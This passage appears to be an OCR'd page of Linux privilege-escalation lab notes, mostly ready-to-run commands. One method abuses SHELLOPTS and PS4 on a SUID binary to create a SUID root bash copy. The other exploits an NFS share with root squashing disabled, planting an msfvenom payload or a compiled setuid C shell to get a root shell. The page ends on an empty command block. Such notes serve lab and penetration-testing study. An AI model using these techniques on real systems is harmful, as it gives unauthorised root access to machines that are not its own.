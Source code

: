 ````
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
````
Run the `/tmp/rootbash` executable with -p to gain a shell running with root privileges:
````
/tmp/rootbash -p
````
- OR One liner
````
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
````
### NFS
- Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
- Check the NFS share configuration:
````
cat /etc/exports
````
- Note that the /tmp share has root squashing disabled.
- On your Kali box, switch to your root user if you are not already running as root:
````
sudo su
````
- Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):
````
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
````
- Alternative command
````
mount -t nfs -v 10.10.185.59:/ /tmp/nfs
````
- Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
````
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
````
- Still using Kali's root user, make the file executable and set the SUID permission:
````
chmod +xs /tmp/nfs/shell.elf
````
- Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
````
/tmp/shell.elf
````
#### NFS Method 2
````
cat /etc/exports
Attack Box:
showmount -e 10.10.10.10
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/nfs/x.c
gcc /tmp/nfs/x.c -o /tmp/nfs/x
chmod +s /tmp/nfs/x
Target Box:
/tmp/x
id
````
#### NFS Errors
- When we try to mount with the alternative command above, we fail to get any response and connection times out.
- To double check use the command:
````
````